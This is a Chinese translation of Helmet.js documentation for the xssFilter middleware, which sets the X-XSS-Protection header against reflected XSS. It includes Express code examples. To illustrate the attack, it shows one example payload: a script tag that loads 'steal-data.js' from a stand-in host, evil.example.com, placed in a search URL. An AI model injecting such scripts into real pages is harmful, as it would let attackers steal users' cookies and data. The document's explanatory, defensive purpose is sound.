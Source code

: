 ```yaml
---
title: xssFilter
---
```


# xssFilter <Badge text='默认启用' />

[原文链接](https://helmetjs.github.io/docs/xss-filter/)

简介：`xssFilter`中间件设置了`X-XSS-Protection`报头来阻止反射性XSS攻击。

## 攻击方式

跨站脚本攻击(XSS，Cross-site scripting)是能够让攻击者接管页面的一种攻击方式。XSS攻击的目标是获得对受害者浏览器中JavaScript的控制。一旦黑客得手，他们就能做很多无下限的事情：记录你的行为、冒充你、窃取你的认证cookie等等。

XSS是一个千面兽，篇幅所限我们不会介绍所有内容。把握重点：如果有人能在你的页面上运行JavaScript，那么他们就能够攻击你的用户。我们必须采取措施。

其中一种XSS名为“反射性XSS”。通常，它通过设置一个直接放入HTML的查询字符串来搞事情。在查询字符串中放入JavaScript可以让攻击者通过给用户发送恶意字符串来执行它们的JavaScript。

举个例子，我们假设您运行了一个名为Goober的搜索引擎。每次进行搜索时，它都会在搜索结果的正上方显示搜索关键词。比方说我们搜索了"javascript jokes"。

页面可能像下面这样：

![image](/images/xss-filter-ok.png)

那么如果我们搜索的是`<script src="http://evil.example.com/steal-data.js"></script>`会发生什么情况呢？URL可能会显示成下面这样：

```bash
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

然后你的页面会出现什么呢：

![image](/images/xss-filter-malicious.png)

瞧，恶意JavaScript文件就这样执行了，就很烦。

扩展阅读

- [Guide to understanding XSS](http://www.securesolutions.no/xss-explained/)
- [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/XSS)
- [What is Reflected XSS?](http://security.stackexchange.com/q/65142)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

## 报头详解

首先需要明确的是:这个报头并不能很好地保护您免受XSS攻击。它仅是其中一种特殊的XSS的防范措施。它提供了一个开箱即用的基本保护，但是这个报头并不能把你从XSS攻击中拯救出来。

浏览器很容易检测到简单的反射性XSS。在上面的示例中，如果\<script\>标签与查询字符串中的内容匹配，浏览器可以选择不执行其中的JavaScript。有些浏览器默认情况下会进行这种检测，但有些则不会。要使这些浏览器也检查这个情况，您可以设置`X-XSS-Protection`报头值为`1`;`mode=block`。

这就会告诉浏览器检测并屏蔽反射性XSS。

在旧版本的IE浏览器中，这个报头会导致更糟糕的安全漏洞，因此禁用它很明智。

扩展阅读：

- [“Controlling the XSS Filter” on MSDN](http://blogs.msdn.com/b/ieinternals/archive/2011/01/31/controlling-the-internet-explorer-xss-filter-with-the-x-xss-protection-http-header.aspx)
- [“IE’s XSS Filter Creates XSS Vulnerabilities”](http://hackademix.net/2009/11/21/ies-xss-filter-creates-xss-vulnerabilities/)
- [“XSS Filter Script Handling Vulnerability - CVE-2009-4074”](https://technet.microsoft.com/library/security/ms10-002#XSS%20Filter%20Script%20Handling%20Vulnerability%20-%20CVE-2009-4074)

## 代码

Helmet的`xssFilter`中间件很简单，它仅仅设置了`X-XSS-Protection`报头。在大多数浏览器中它会被设置为`1; mode=block`。但在旧版本的IE浏览器中，它会被设置成`0`以禁用。

您可以作为Helmet模块的内部方法来使用：

```js
// Make sure you run "npm install helmet" to get the Helmet package.
const helmet = require('helmet')

// Sets "X-XSS-Protection: 1; mode=block".
app.use(helmet.xssFilter())
```

也可以单独使用：

```js
// Make sure you run "npm install x-xss-protection" to get this package.
const xssFilter = require('x-xss-protection')

// Sets "X-XSS-Protection: 1; mode=block".
app.use(xssFilter())
```

若要在所有版本的IE浏览器中也设置成`1; mode=block`，那么：

```js
// 警告⚠️ 这样在老版本IE浏览器会产生安全隐患
app.use(xssFilter({ setOnOldIE: true }))
```

您还可以配置一个上报URI，浏览器会将违规行为进行上报。[尽管只有Chrome浏览器支持](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/X-XSS-Protection)。

```js
app.use(xssFilter({ reportUri: '/report-xss-violation' }))
```

若想移除`mode=block`, **我们不推荐这么做**，则将`mode`设置为`null`:

```js
app.use(xssFilter({ mode: null }))
```

